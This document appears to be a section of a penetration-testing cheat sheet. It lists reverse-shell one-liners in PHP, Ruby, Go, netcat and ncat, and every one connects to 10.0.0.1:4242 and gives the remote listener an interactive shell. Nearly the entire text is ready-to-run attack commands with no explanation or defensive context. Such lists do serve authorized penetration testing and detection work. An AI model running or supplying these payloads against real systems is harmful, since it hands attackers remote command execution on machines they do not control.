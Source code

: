 ### PHP

```
  php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
  php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

```
  php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Ruby

```
  ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

  ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

  NOTE: Windows only
  ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Golang

```
  echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Netcat Traditional

```
  nc -e /bin/sh 10.0.0.1 4242
  nc -e /bin/bash 10.0.0.1 4242
  nc -c bash 10.0.0.1 4242
```

### Netcat OpenBsd

```
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Ncat

```
  ncat 10.0.0.1 4242 -e /bin/bash
  ncat --udp 10.0.0.1 4242 -e /bin/bash
```

